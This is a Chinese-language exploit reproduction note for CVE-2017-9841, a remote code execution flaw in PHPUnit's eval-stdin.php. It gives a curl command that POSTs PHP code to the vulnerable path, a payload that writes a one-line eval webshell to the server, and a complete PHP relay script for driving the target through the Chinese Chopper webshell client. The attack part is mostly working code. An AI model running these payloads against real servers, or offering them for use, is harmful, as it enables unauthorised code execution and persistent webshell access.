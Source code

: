 （CVE-2017-9841）PHPunit 远程代码执行漏洞
=========================================

一、漏洞简介
------------

TYPO3是瑞士TYPO3协会维护的一套免费开源的内容管理系统。PHPUnit是其中的一个基于PHP的测试框架。PHPUnit4.8.28之前的版本和5.6.3之前的5.x版本中的Util/PHP/eval-stdin.php文件存在安全漏洞。远程攻击者可通过发送以'

二、漏洞影响
------------

PHPUnit 4.8.19-4.8.27PHPUnit 5.0.10-5.6.2

三、复现过程
------------

    $ curl --data "<?php echo(pi());" http://www.0-sec.org:8888/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php

总体来说就是向**vendor/phpunit/src/Util/PHP/eval-stdin.php**发送POST请求执行php代码。![1.png](resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId24.png)
![2.png](resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId25.png)
也可以直接写入一句话\*\*\?=file\_put\_contents(\"1.php\",
\'\<?=eval(\$\_REQUEST\[1\]);?\>\');\*\*
![3.png](resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId26.png)
![4.png](resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId27.png)

### poc

> 因为直接是RCE，如果当前目录可写，直接POST这样的body:

**菜刀中转脚本**

> 使用20160622版本的菜刀，可以直接连目标，可以执行命令，但是不可以上传修改文件。

    <?php
    $webshell="";
    $data = file_get_contents("php://input");
    $data=substr($data,1);
    $data=str_replace("%2F",'/',$data);
    $data=str_replace("%2B",'+',$data);
    $data=str_replace("%3D",'=',$data);
    $data= "<?php ". $data;
    echo $data;

    $opts = array (
    'http' => array (
    'method' => 'POST',
    'header'=> "Content-type: application/x-www-form-urlencoded\r\n" .
    "Content-Length: " . strlen($data) . "\r\n",
    'content' => $data)
    );

    $context = stream_context_create($opts);
    $html = @file_get_contents($webshell, false, $context);
    echo $html;
    ?>
